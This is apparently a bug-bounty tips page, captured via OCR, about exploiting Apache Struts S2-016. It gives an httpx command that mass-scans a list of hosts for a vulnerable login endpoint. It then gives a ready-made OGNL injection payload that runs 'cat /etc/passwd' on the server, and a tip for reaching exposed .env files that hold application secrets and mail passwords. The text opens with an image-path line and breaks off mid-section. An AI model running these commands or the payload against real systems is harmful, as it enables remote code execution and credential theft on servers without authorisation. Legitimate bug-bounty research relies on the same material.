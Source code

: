 /sm/login/loginpagecontentgrabber.do:-

```

I have found a Remote Command Execution ( Apache Struts S2-016) on one of bugcrowd private programs and earned the full bounty of $3000.

```

Just use this oneliner to test for Struts S2-016 on all the hosts.

You just need httpx to run this test.

[https://github.com/projectdiscovery/httpx](https://github.com/projectdiscovery/httpx?fbclid=IwAR0iWG0kIwliGEqFCKpEv864bjk-O_BQ-1QB7VWfpwykiQpapViBmSX3FJ4)

httpx -l hosts.txt -path /sm/login/loginpagecontentgrabber.do -threads 100 -random-agent -x GET,POST,PUT -title -tech-detect -status-code -follow-redirects -title -mc 200

```

If you get /sm/login/loginpagecontentgrabber.do just inject this line on the url:-

```

?redirect%3a${%23a%3d(new+java.lang.ProcessBuilder(new+java.lang.String[]{"cat","/etc/passwd"})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew+java.io.InputStreamReader(%23b),%23d%3dnew+java.io.BufferedReader(%23c),%23e%3dnew+char[50000],%23d.read(%23e),%23matt%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23matt.getWriter().println(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()}

```

If you see the etc/passwd on the browser then congratulations you get a RCE vulnerability and you will earn the full bounty.

Ref:-

[https://cwiki.apache.org/confluence/display/WW/S2-016](https://cwiki.apache.org/confluence/display/WW/S2-016?fbclid=IwAR3v1OVR0-ID74MbVZ0aRbFUXwIJdAH_kTyL91Ujsckc4ZDvtnylr6QBgJE)

PS:- Work smarter not harder.


[Multi_tools_subdomains]

(https://github.com/emadshanab/Multi_tools_subdomains)



Add /api/.env to wordlist,maybe you will have access to dotenv file environment that leading to exposing symfony APP_SECRET and MAILER_DSN password

httpx:-

```
